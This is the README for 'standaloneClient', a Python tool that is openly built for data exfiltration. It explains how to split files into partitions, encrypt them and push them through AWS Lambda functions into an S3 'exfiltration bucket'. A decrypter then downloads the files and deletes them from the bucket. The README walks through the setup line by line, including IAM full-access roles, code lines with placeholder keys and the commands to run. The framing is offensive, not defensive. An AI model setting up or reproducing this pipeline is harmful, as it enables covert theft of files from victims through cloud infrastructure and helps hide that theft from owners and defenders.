 # standaloneClient
## Usage
#### Client
`py clientName.py "Path_to_file"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket
`py decrypter.py "Hostname" "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py "ID4A0E" "test"`
## Setup

Here we will discuss how to set up a working client for data exfiltration.

###### Note 1: Use python 3.x
###### Note 2: Be careful when using AWS Regions, specially when creating lambda functions and S3 buckets.
###### Note 3: Try to follow the steps in order

#### Client Setup
Open `standaloneClient_template.py` and modify the following lines with desired values.  

*Line 11*  Modify partition size  
`partitionSize = 100 #Change for desired partition size`  
*Line 42*  Modify Orchestrator function name (Remember it)  
`orq_response = self.aws_lambda.invoke(FunctionName = '<ORCHESTRATOR_FUNCTION_NAME>', 
                                       Payload = orqPayload_json)`  
*Line 85* Modify with AWS Keys  
`client.awsConnect('<ACCESS_KEY_ID>','<SECRET_ACCESS_KEY_ID>','<REGION>')`  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

#### S3 Console
We will now create 2 buckets.  
The **exfiltration bucket** in which we will save out exfiltrated files (their partitions).  
The **template bucket** in which we will save the template used for creating the lambda functions required.  
(If the above sounds like gibberish, refer to the explanation on how the exfiltration works)  

Create 2 buckets with default config and remember their names. One will be used for exfiltration and the other one for our templates.  

#### Sample Function Setup
Open `sampleFunction_template.py`.  
*Line 6*  Modify with the exfiltration bucket name  
`bucket_name = "<EXFILTRATION_BUCKET_NAME>"`  

Compress the function and upload it to the template bucket created before. Remember the compressed function name. We should now have a sampleFunction_template.zip inside our template bucket.  

#### Lambda console setup
Create a lambda function called `<Insert orchestrator name>`.  
Give the function the role previously created. This can be done by scrolling down a bit one the function is created.  

Copy and paste the contents of `orchestrator_template.py` into the newly created lambda function.  

*Line 26*  Modify IAM Role ARN  
`Role = '<LAMBDA_S3_IAM_ROLE>'`  
*Line 29*  Modify Template Bucket Name  
`'S3Bucket': '<TEMPLATES_BUCKET>'`  
*Line 30* Modify Compressed function name  
`'S3Key': '<COMPRESSED_FUNCTION_NAME>'`  

Increase the timeout of this function to 1 minute and memory to 512MB  

#### Decrypter Setup
Files saved inside our exfiltration bucket are encrypted so... we ned a way to decrypt them. Lets se how to do this.  

Open `sampledecrypter_template.py`  

*Line 7*  Modify fernet key. The key can be generated in a separate script with `Fernet.generate_key()`  
`key = b'<FERNET_KEY>'`  
*Line 23-25*  Modify AWS Tokens and region  
`session = boto3.session.Session(aws_access_key_id = '<AWS_ACCESS_KEY_ID>',
 								aws_secret_access_key = '<AWS_SECRET_ACCESS_KEY_ID>',
 								region_name = 'us-east-2')`  
*Line 31,58,80,82* Modify Exfiltration bucket name  
`31- Bucket = '<EXFILTRATION_BUCKET_NAME>'`  
`58- aws_s3_resource.meta.client.download_file('<EXFILTRATION_BUCKET_NAME>', file, 'downloadedFiles/'+name)'`  
`80- bucket = aws_s3_resource.Bucket('<EXFILTRATION_BUCKET_NAME>')`  
`82- aws_s3_resource.Object('<EXFILTRATION_BUCKET_NAME>', file).delete()`  
